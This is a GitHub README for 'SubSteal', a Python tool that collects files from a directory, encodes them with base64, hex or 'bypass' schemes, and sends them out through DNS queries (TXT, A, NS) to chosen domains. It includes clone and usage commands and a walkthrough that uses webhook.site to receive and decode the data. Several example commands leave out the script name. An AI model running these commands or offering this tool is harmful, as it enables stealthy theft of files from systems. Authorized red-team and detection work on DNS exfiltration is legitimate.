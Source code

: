 # SubSteal

## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```



# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage:
```
python3 --domains example.com example2.com --encryption xxd
```
```
python3 --domains example.com example2.com --encryption low_bypass
```
```
python3 --domains example.com --encryption xxd
```
```
python3 --domains example.com --encryption xxd --mode RANDOM
```
Try on WebHook:
1. Go [Webhook](https://webhook.site/)
2. Copy "Your unique DNS name" Url
3. Run the command:
 ```
python3 --domains WebhookDomain --encryption xxd
```

![Foto](photos/1.png)

4. Collect data and decrypt

![Foto](photos/2.png)

